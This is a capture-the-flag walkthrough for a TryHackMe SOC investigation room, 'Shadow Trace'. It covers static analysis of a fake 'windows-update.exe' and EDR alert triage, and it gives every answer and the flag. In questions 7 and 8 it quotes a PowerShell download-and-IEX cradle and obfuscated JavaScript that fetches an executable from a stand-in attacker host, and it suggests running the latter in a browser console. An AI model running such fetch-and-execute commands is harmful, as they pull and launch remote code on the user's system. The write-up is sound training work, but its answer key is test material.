










# Shadow Trace
- Threat hunting & investigation challenge  
- Focus: log analysis, attacker tracing, reporting
## Scenario
It’s the middle of the night shift. You’re the only analyst in the SOC when a manager calls in urgently: a suspicious file was found on a user's machine and needs immediate review.

You open the file and start digging. Something doesn’t look normal for a company updater, and at the same time, the EDR throws a couple of alerts.

Your task: analyse the file, collect anything to identify it, gather any potential IOCs, correlate and analyse the alerts for potential malicious behaviour. It’s up to you to piece together what’s happening before it spreads further.

## File analysis
It is a static analysis, so let's open the file in Detect it Easy.

1. What is the architecture of the binary file windows-update.exe?
    - `64-bit`
    

2. What is the hash (sha-256) of the file windows-update.exe?
    - `b2a88de3e3bcfae4a4b38fa36e884c586b5cb2c2c283e71fba59efdb9ea64bfc`
    - Check on the advanced option in the main window and click on **Hash**, then select SHA256 in the dropdown.
    

3. Identify the URL within the file to use it as an IOC
    - Let's go back to the main window and click on **#String** this time. We're asking to enter the URL, so the thing that should come in mind  is HTTP, let's filter out the string with http
    - `http://tryhatme.com/update/security-update.exe`
    

4. With the URL identified, can you spot a domain that can be used as an IOC?
    - `responses.tryhatme.com`
    - Change the string filter to *“tryha”* and it would show all related domain
    

5. Input the decoded flag from the suspicious domain
    - Let's take the 2 second URL from the above screenshot: `tryhatme.com/VEhNe3lvdV9nMHRfc29tZV9JT0NzX2ZyaWVuZH0=`, there is a suspicious string identified in this URL, let's parse it and decode it in Cyberchef.
    
   
    - `THM{you_g0t_some_IOCs_friend}`

6. What library related to socket communication is loaded by the binary?
    - A library in Windows has often a .dll extension, let's filter out the string with that. Then we should see `WS2_32.dll` listed among of them which is a dynamic link library file in Windows that provides the Windows Sockets API, used for network communication in applications.
    - `WS2_32.dll`
    

## Alert Analysis
In this task, we're using the static site presented by TryHackMe. Click on the View Site button and let's begin our investigation.


7. Can you identify the malicious URL from the trigger by the process powershell.exe?
    

    - Copy this command, extract the base64 string and decode it from cyberchef
    ```
    (new-object system.net.webclient).DownloadString([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX;
    ```
    

8. Can you identify the malicious URL from the alert triggered by chrome.exe?
    - let's copy the command again from the EDR alert
    ```
    fetch([104,116,116,112,115,58,47,47,114,101,97,108,108,121,115,101,99,117,114,101,117,112,100,97,116,101,46,116,114,121,104,97,116,109,101,46,99,111,109,47,117,112,100,97,116,101,46,101,120,101].map(c=>String.fromCharCode(c)).join('')).then(r=>r.blob()).then(b=>{const u=URL.createObjectURL(b);const a=document.createElement('a');a.href=u;a.download='test.txt';document.body.appendChild(a);a.click();a.remove();URL.revokeObjectURL(u);});
    ```
    - Copy the fetch function and run it into chrome web developer console (because it's a javascript code)
    

    - `https://reallysecureupdate.tryhatme.com/update.exe`